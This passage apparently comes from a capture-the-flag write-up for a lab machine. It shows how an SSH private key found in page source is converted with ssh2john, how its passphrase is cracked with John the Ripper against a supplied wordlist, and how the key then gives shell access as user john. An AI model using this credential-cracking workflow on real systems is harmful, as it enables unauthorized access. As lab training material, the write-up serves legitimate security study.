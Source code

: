 <br>

## Connecting to the server

I save the private key to a file on my system and then try to ssh in with the username john that was in the view source comment:

`ssh -i id_rsa john@10.10.157.225`:

```
Enter passphrase for key 'id_rsa':
```

No luck, we'll have to crack the passphrase. I run:

`ssh2john.py id_rsa > crackthis`

to convert the ssh key to a format compatible with John the Ripper. I then run:

`john crackthis --wordlist=dict.lst`

Using the provided dictionary file it cracks in a matter of seconds:

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<REDACTED>          (id_rsa)     
1g 0:00:00:00 DONE (2022-01-31 01:20) 100.0g/s 22200p/s 22200c/s 22200C/s 2003..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

<br>

Now lets try and ssh back over:

`ssh -i id_rsa john@10.10.157.225`

```
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jan 31 03:36:37 UTC 2022

  System load:  0.0               Processes:           98
  Usage of /:   41.3% of 9.78GB   Users logged in:     0
  Memory usage: 20%               IP address for eth0: 10.10.157.225
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
john@exploitable:~$
```
